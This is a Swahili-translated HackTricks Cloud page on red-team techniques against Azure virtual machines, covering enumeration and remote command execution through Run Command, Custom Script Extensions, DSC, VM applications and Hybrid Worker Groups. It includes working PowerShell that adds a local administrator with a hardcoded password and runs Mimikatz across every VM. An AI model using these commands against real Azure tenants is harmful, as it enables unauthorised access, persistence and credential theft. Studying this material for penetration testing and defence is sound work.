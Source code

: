 # Az - Mashine za Kijijini & Mtandao

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## Taarifa za Msingi

[Kutoka kwenye docs:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Mashine za kijijini za Azure ni mojawapo ya aina kadhaa za [rasilimali za kompyuta zinazopatikana kwa mahitaji](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) ambazo Azure inatoa. Kwa kawaida, unachagua mashine ya kijijini unapohitaji udhibiti zaidi juu ya mazingira ya kompyuta kuliko chaguzi nyingine zinavyotoa. Makala hii inakupa taarifa kuhusu kile unapaswa kuzingatia kabla ya kuunda mashine ya kijijini, jinsi ya kuunda hiyo, na jinsi ya kuisimamia.

## Taarifa za Mtandao wa Azure

Mitandao ya Azure ina **entiti tofauti na njia za kuikamilisha.** Unaweza kupata **maelezo mafupi,** **mfano** na **amri za kuhesabu** za entiti tofauti za mtandao wa Azure katika:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** inatoa suluhisho salama, lililohudumiwa kikamilifu la RDP (Remote Desktop Protocol) na SSH (Secure Shell) kupitia SSL kupitia lango la Azure. Imeunganishwa ndani ya Mtandao wa Kijijini wa Azure, ikiruhusu muunganisho wa RDP na SSH kwa VMs kwa kutumia IP za kibinafsi, ikiepuka hitaji la IP za umma. Hii inafanya kuwa mbadala salama na rahisi zaidi kwa mbinu za jadi zinazohusisha ugawaji wa IP za umma na usanidi wa sheria za NSG kwa ufikiaji wa VM. Wanaendeleza na wafanyakazi wa IT wanaweza kufikia VMs kwa usalama kutoka kwenye lango la Azure wakitumia vivinjari vya wavuti, wakifanya mchakato wa mazingira ya maendeleo na majaribio kuwa rahisi.

Ili orodhesha Hosts zote za Azure Bastion katika usajili wako, unaweza kutumia amri ifuatayo:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Uainishaji wa VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Kimbia amri katika VM**

### **AAD Kuingia katika VM**

Inawezekana kuruhusu ufikiaji kwa watumiaji walioidhinishwa kupitia AzureAD. Kwa mfano, kujaribu kufikia **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (ni muhimu **kutumia barua pepe** na azurecorp iliyotumika unapojaribu kuingia) unaweza kupata kosa kama: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Fuata **maagizo hayo** kwa kutembelea [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) na kuashiria msimbo, tumia barua pepe na nenosiri kama ithibitisho na utaweza kuungana kupitia SSH (ikiwa mtumiaji huyo ana ruhusa za kutosha kufanya hivyo: `Virtual Machine Administrator Login` au `Virtual Machine User Login` role).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Kimbia Kiendelezi cha Skripti ya Kawaida**

Marekebisho ya mashine halisi ya Azure (VM) ni **programu ndogo** zinazotoa usanidi wa baada ya kupeleka na **kazi** za automatisering kwenye **VM za Azure**. Kwa mfano, ikiwa mashine halisi inahitaji usakinishaji wa programu, ulinzi wa antivirus, au uwezo wa kuendesha skripti ndani yake, unaweza kutumia kiendelezi cha VM.

Hivyo, ikiwa una ruhusa ya kuandika, unaweza kutekeleza msimbo wowote:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) ni chombo cha PowerShell kinachofanana na Ansible, kinachotumika kwa ajili ya kuandaa mwenyeji kupitia msimbo. DSC inajumuisha na Azure, ikiruhusu kupakia faili maalum za usanidi. Faili hizi zinapaswa kufuata sarufi kali. Kwa kuzingatia, nyongeza ya DSC katika Azure inaweza kutekeleza amri kutoka kwa faili ambazo zinakidhi vigezo fulani vya muundo, hata kama sarufi si sahihi kwa viwango vya DSC, kama inavyoonyeshwa katika picha iliyotolewa.

Utekelezaji wa amri hizi unarahisishwa na [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) kazi katika Az PowerShell. Mahitaji ni pamoja na faili ya **.PS1** yenye kazi iliyofafanuliwa na faili hiyo inapaswa kufungwa katika faili ya **.zip**. Ingawa sarufi inaweza kuwa si sahihi kwa DSC, msimbo bado utaweza kutekelezwa. Hata hivyo, nyongeza itakadiria hali ya utekelezaji kama "kushindwa," na hakuna matokeo kutoka kwa amri yatakayokuwa yanaonekana kutokana na hali hiyo kufutwa na ujumbe wa kushindwa.

### VM Application Definitions

VM Application Definitions zinaruhusu kupelekwa kwa mara kwa mara kwa programu zenye toleo kwenye VM ya Azure. Rasilimali hii inasaidia kupelekwa na sasisho la programu katika VMs. Ili kuanzisha hii, hatua kadhaa zinahitajika, zikihusisha amri kama **`New-AzGalleryApplication`** na **`New-AzGalleryApplicationVersion`** katika Az PowerShell.

Utekelezaji wa programu au amri kupitia njia hii unahusisha **"VMAppExtension,"** ambayo inasakinishwa kiotomatiki wakati programu inapowekwa kwenye VM. Nyongeza inachukua faili kutoka URI iliyotolewa na kuipa jina sawa na programu, bila nyongeza. Ili kutekeleza faili hiyo kwa usahihi, uwanja wa "ManageActions" katika wito wa REST API unapaswa kuwekewa jina la faili na nyongeza inayofaa. Mpangilio wa njia hii, mara tu ukikamilika, utafanana na muundo ulioonyeshwa katika picha iliyotolewa.

Hata hivyo, njia hii ya utekelezaji ni polepole, ikichukua takriban dakika 3-4 kutekeleza programu au amri. Faili zinazohusiana na mchakato huu zimehifadhiwa katika directories maalum (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` kwa nakala ya programu na `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` kwa hali ya utekelezaji).

Mbinu zote mbili zinatoa njia za kipekee za kutekeleza amri na kupeleka programu katika mazingira ya Azure, kila moja ikiwa na seti yake ya mahitaji, hatua, na mambo ya kuzingatia.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) ni kipengele katika Azure kinachoruhusu Runbooks, zilizowekwa katika Akaunti ya Automation, kutekelezwa kwenye Mashine Halisi ya Azure (VM) ambayo ni sehemu ya HWG iliyoteuliwa. Utekelezaji huu unarahisishwa kupitia nyongeza iliyosakinishwa kwenye VM, ambayo inaweka msimbo wa Runbook kwenye VM. Kipengele muhimu cha mchakato huu ni kwamba akreditif halisi si kipengele katika utekelezaji kwa sababu msimbo unakimbia kwa mamlaka ya juu, hasa kama **SYSTEM** au root, kama inavyoonyeshwa katika picha iliyotolewa.

Maelezo muhimu kwa wale wanaotumia VMs za Windows 10 ni hitaji la kubainisha toleo la PowerShell kwa Runbook. Inapaswa kuwekwa kutekelezwa kama Toleo la PowerShell 5.1 badala ya 7.1. Hitaji hili linatokana na ukweli kwamba PowerShell 7.1 haijasanidiwa kwa kawaida kwenye VMs hizi, na kusababisha kushindwa kwa utekelezaji wa skripti ikiwa toleo 7.1 limewekwa.

Kipengele hiki cha Azure kinatoa njia thabiti ya kujiendesha na kusimamia kazi katika mazingira ya mseto, ikiruhusu usimamizi wa kati na utekelezaji wa kazi kwenye VMs za Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
